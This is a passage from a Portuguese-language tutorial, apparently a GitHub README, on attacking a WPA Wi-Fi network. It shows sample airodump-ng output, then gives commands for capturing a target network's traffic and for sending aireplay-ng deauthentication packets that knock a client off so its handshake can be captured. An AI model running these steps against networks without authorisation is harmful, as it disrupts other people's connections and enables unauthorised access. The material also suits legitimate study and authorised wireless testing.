 ```
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy
 ```
 

* BSSID = Mac Address do AP (roteador)
* ESSID = nome que identifica o AP
* CH = canal em que o AP esta operando
* STATION = Mac Address de dispositivos conectados aos APs

 
 
 
_________________________________________________________________________________________________________________________________________________________
 # Quarto passo
 ##### Depois de identificar o alvo, comece a captura dos pacotes da rede alvo:
 ```
 $ sudo airodump-ng --bssid <macaddr> -c <canal> -w <arquivo> <interface>
 ```
 > --bssid mac address do AP alvo
 >
 > -c seleciona o canal do AP para evitar perda de pacotes
 > 
 > -w para gravar captura em um arquivo .cap
 
 


_________________________________________________________________________________________________________________________________________________________ 
 # Quinto passo
 ##### Enquanto o trafego do alvo é capturado, você devera fazer um ataque de Deauthentication em um dispositivo que está conectado ao AP. Em seguida o dispositivo irá se conectar de novo automaticamente (ou manualmente por uma pessoa). E nessa hora o HANDSHAKE é capturado...
 
 ##### Para desautenticar uma STATION de um AP sera use o aireplay-ng:
 ```
 $ aireplay-ng -0 1 -a <macAP> -c <macSTATION> <interface>
 ```
 > -0 especifica o Deauthentication attack   
 > 1 é o número de deauths a serem enviados  
 > -a mac do AP alvo   
 > -c mac do dispositivo cliente para desautenticar 
 ##### Obs: mandar poucos deauths pois pode influênciar na captura do trafego
 